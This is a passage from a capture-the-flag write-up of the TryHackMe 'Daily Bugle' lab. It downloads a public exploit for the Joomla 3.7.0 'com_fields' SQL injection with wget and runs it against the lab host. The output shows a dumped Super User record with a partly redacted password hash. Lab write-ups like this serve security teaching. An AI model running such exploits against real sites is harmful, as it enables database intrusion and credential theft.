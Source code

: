 ```
```

- Joomla version: 3.7.0

**It says this version not vulnerable, let me google it to confirm it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a2.png)

**Hmm... SQL injection in `com_fields`?**

- Exploit-DB: [Joomla! 3.7.0 - 'com_fields' SQL Injection](https://www.exploit-db.com/exploits/42033)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a3.png)

**Why it's using `sqlmap`? Let's do this via a python script!**

> Note: I tried to write a python script to do this, but it's way harder than I thought :(

**After poking around in google, I found [a GitHub repository](https://github.com/XiphosResearch/exploits/blob/44bf14da73220467410c2d952c33638281c47954/Joomblah/joomblah.py) that holds lots of exploit, including Joomla 3.7.0 SQL injection.**

I've read through the exploit, and it looks great! Let's `wget` that exploit!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# wget https://raw.githubusercontent.com/XiphosResearch/exploits/44bf14da73220467410c2d952c33638281c47954/Joomblah/joomblah.py
```

**Let's run that exploit!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# python2 joomblah.py http://daily-bugle.thm
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/{Redacted}', '', '']
  -  Extracting sessions from fb9j5_session
```
